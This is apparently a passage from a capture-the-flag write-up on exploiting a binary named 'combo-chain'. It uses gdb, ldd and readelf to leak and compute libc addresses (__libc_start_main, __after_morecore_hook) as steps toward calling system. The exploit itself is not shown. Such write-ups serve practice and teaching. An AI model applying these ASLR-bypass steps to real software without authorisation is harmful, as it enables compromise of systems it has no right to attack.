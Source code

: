     (gdb) printf "%p\n", __libc_start_main
    0x7f8fb7188fb0
    
    (gdb) printf "%d\n", __libc_start_main-0x7f8fb73228c0
    -1677584

#### Find leaked address (locally)

We know the offset locally, but on the server it might be different. Let's view the code disassembly.

    (gdb) x/20i 0x7ffff7fc28c0   
       0x7ffff7fc28c0:  add    %al,(%rax)
       0x7ffff7fc28c2:  add    %al,(%rax)
       0x7ffff7fc28c4:  add    %al,(%rax)
       0x7ffff7fc28c6:  add    %al,(%rax)
       0x7ffff7fc28c8:  add    %al,(%rax)
       0x7ffff7fc28ca:  add    %al,(%rax)
       0x7ffff7fc28cc:  add    %al,(%rax)
       0x7ffff7fc28ce:  add    %al,(%rax)
       0x7ffff7fc28d0:  add    %al,(%rax)
       0x7ffff7fc28d2:  add    %al,(%rax)
       0x7ffff7fc28d4:  add    %al,(%rax)
       0x7ffff7fc28d6:  add    %al,(%rax)
       0x7ffff7fc28d8:  add    %al,(%rax)
       0x7ffff7fc28da:  add    %al,(%rax)
       0x7ffff7fc28dc:  add    %al,(%rax)
       0x7ffff7fc28de:  add    %al,(%rax)
       0x7ffff7fc28e0 <__after_morecore_hook>:  add    %al,(%rax)
       0x7ffff7fc28e2 <__after_morecore_hook+2>:    add    %al,(%rax)
       0x7ffff7fc28e4 <__after_morecore_hook+4>:    add    %al,(%rax)
       0x7ffff7fc28e6 <__after_morecore_hook+6>:    add    %al,(%rax)

From here we find out that it is in reference to `__after_morecore_hook`.

It is `__after_morecore_hook-32>`

#### Calculation to system (Locally)

Do locally check using LDD

    # ldd -r -v combo-chain
        linux-vdso.so.1 (0x00007ffdbc7fb000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f39ab941000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f39abb0d000)

        Version information:
        ./combo-chain:
            libc.so.6 (GLIBC_2.2.5) => /lib/x86_64-linux-gnu/libc.so.6
        /lib/x86_64-linux-gnu/libc.so.6:
            ld-linux-x86-64.so.2 (GLIBC_2.3) => /lib64/ld-linux-x86-64.so.2
            ld-linux-x86-64.so.2 (GLIBC_PRIVATE) => /lib64/ld-linux-x86-64.so.2

    # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep __libc_start_main
      2224: 0000000000023fb0   446 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5
